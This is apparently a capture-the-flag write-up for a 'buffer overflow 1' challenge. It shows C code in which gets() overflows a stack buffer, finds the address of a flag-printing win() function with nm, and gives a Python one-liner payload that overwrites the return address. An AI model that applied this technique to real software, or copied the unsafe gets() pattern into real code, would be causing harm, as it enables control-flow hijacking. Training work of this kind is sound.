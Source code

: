 ## buffer overflow 1 - 200

### Description

> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613 on the shell server. Source.

### Write up

```
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

```
$ nm vuln | grep win
080485cb T win
```

address of win is 0x080485cb

```
$ python -c 'print "A"* 40 + "\xcb\x85\x04\x08"'
```
